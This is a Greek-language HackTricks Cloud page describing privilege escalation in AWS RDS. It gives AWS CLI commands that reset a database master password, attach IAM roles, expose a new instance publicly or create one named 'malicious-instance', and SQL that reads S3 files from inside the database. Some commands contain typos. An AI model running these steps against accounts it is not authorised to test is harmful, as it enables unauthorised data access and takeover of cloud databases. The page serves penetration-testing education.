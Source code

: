 # AWS - RDS Privesc

<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## RDS - Υπηρεσία Σχεσιακής Βάσης Δεδομένων

Για περισσότερες πληροφορίες σχετικά με το RDS, ελέγξτε:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Με αυτήν την άδεια, ένας επιτιθέμενος μπορεί να **τροποποιήσει τον κωδικό πρόσβασης του κύριου χρήστη** και την σύνδεση μέσα στη βάση δεδομένων:

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Θα πρέπει να μπορείτε να **επικοινωνήσετε με τη βάση δεδομένων** (συνήθως είναι προσβάσιμες μόνο από εσωτερικά δίκτυα).
{% endhint %}

**Πιθανές Επιπτώσεις:** Εύρεση ευαίσθητων πληροφοριών μέσα στις βάσεις δεδομένων.

### rds-db:connect

Σύμφωνα με τα [**έγγραφα**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) ένας χρήστης με αυτήν την άδεια μπορεί να συνδεθεί στην περίπτωση της βάσης δεδομένων.

### Κατάχρηση των δικαιωμάτων IAM του RDS Role

#### Postgresql (Aurora)

{% hint style="success" %}
Εάν εκτελέσετε την εντολή **`SELECT datname FROM pg_database;`** και βρείτε μια βάση δεδομένων με το όνομα **`rdsadmin`**, τότε γνωρίζετε ότι βρίσκεστε μέσα σε μια **AWS postgresql βάση δεδομένων**.
{% endhint %}

Πρώτα μπορείτε να ελέγξετε εάν αυτή η βάση δεδομένων έχει χρησιμοποιηθεί για να αποκτήσει πρόσβαση σε οποιαδήποτε άλλη υπηρεσία της AWS. Μπορείτε να ελέγξετε αυτό παρατηρώντας τις εγκατεστημένες επεκτάσεις:

```sql
SELECT * FROM pg_extension;
```

Εάν βρείτε κάτι όπως **`aws_s3`**, μπορείτε να υποθέσετε ότι αυτή η βάση δεδομένων έχει **κάποια πρόσβαση στο S3** (υπάρχουν και άλλες επεκτάσεις όπως **`aws_ml`** και **`aws_lambda`**).

Επίσης, εάν έχετε δικαιώματα για να εκτελέσετε **`aws rds describe-db-clusters`**, μπορείτε να δείτε εάν ο **συστάδα έχει κάποιον συνδεδεμένο IAM ρόλο** στο πεδίο **`AssociatedRoles`**. Εάν υπάρχει, μπορείτε να υποθέσετε ότι η βάση δεδομένων ήταν **προετοιμασμένη για πρόσβαση σε άλλες υπηρεσίες του AWS**. Με βάση το **όνομα του ρόλου** (ή εάν μπορείτε να πάρετε τα **δικαιώματα** του ρόλου), μπορείτε να **μαντέψετε** ποια επιπλέον πρόσβαση έχει η βάση δεδομένων.

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα κάδο**, πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με:

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

Εάν είχατε **ακατέργαστα διαπιστευτήρια AWS**, θα μπορούσατε επίσης να τα χρησιμοποιήσετε για να αποκτήσετε πρόσβαση σε δεδομένα S3 με:

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Το Postgresql **δεν χρειάζεται να αλλάξει καμία μεταβλητή ομάδας παραμέτρων** για να μπορεί να έχει πρόσβαση στο S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Μέσα σε ένα mysql, αν εκτελέσετε το ερώτημα **`SELECT User, Host FROM mysql.user;`** και υπάρχει ένας χρήστης με το όνομα **`rdsadmin`**, μπορείτε να υποθέσετε ότι βρίσκεστε μέσα σε μια **AWS RDS mysql db**.
{% endhint %}

Μέσα στο mysql εκτελέστε την εντολή **`show variables;`** και αν οι μεταβλητές όπως **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** έχουν τιμές, μπορείτε να υποθέσετε ότι η βάση δεδομένων είναι προετοιμασμένη για πρόσβαση σε δεδομένα S3.

Επίσης, αν έχετε δικαιώματα να εκτελέσετε την εντολή **`aws rds describe-db-clusters`** μπορείτε να ελέγξετε αν ο cluster έχει κάποιο **συσχετισμένο ρόλο**, που συνήθως σημαίνει πρόσβαση σε υπηρεσίες AWS).

Τώρα, για να **διαβάσετε ένα αρχείο μέσα σε ένα bucket** πρέπει να γνωρίζετε την πλήρη διαδρομή. Μπορείτε να το διαβάσετε με την εντολή:

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBCluster` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε ένα υπάρχον RDS instance**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στο instance.

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην περίπτωση RDS.\
Σημειώστε ότι ορισμένες βάσεις δεδομένων απαιτούν επιπλέον ρυθμίσεις, όπως η Mysql, η οποία χρειάζεται να καθορίσει το ρόλο ARN στα ομάδας παραμέτρων επίσης.

### `rds:CreateDBInstance`

Μόνο με αυτήν την άδεια, ένας επιτιθέμενος μπορεί να δημιουργήσει μια **νέα περίπτωση μέσα σε ένα υπάρχον cluster** που έχει επισυναφθεί ένας **ρόλος IAM**. Δεν θα μπορεί να αλλάξει τον κωδικό του κύριου χρήστη, αλλά μπορεί να αποκαλύψει τη νέα περίπτωση βάσης δεδομένων στο διαδίκτυο:

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
ΕΡΓΑΣΙΕΣ: Δοκιμή
{% endhint %}

Ένας επιτιθέμενος με τις άδειες `rds:CreateDBInstance` και `iam:PassRole` μπορεί να **δημιουργήσει ένα νέο RDS instance με συνδεδεμένο ένα συγκεκριμένο ρόλο**. Ο επιτιθέμενος μπορεί στη συνέχεια να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στο instance.

{% hint style="warning" %}
Ορισμένες απαιτήσεις για τον ρόλο/προφίλ του instance που θα συνδεθεί (από [**εδώ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Το προφίλ πρέπει να υπάρχει στον λογαριασμό σας.
* Το προφίλ πρέπει να έχει έναν ρόλο IAM που ο Amazon EC2 έχει δικαιώματα να υποθέσει.
* Το όνομα του προφίλ του instance και το συνδεδεμένο όνομα του ρόλου IAM πρέπει να ξεκινά με το πρόθεμα `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις στα δεδομένα της RDS περίπτωσης.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ένας επιτιθέμενος με τις άδειες `rds:AddRoleToDBInstance` και `iam:PassRole` μπορεί να **προσθέσει έναν καθορισμένο ρόλο σε μια υπάρχουσα περίπτωση RDS**. Αυτό θα μπορούσε να επιτρέψει στον επιτιθέμενο να **έχει πρόσβαση σε ευαίσθητα δεδομένα** ή να τροποποιήσει τα δεδομένα μέσα στην περίπτωση.

{% hint style="warning" %}
Η περίπτωση της βάσης δεδομένων πρέπει να είναι εκτός ενός συστήματος συστάδας για αυτό
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Πρόσβαση σε ευαίσθητα δεδομένα ή μη εξουσιοδοτημένες τροποποιήσεις των δεδομένων στην περίπτωση RDS.

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
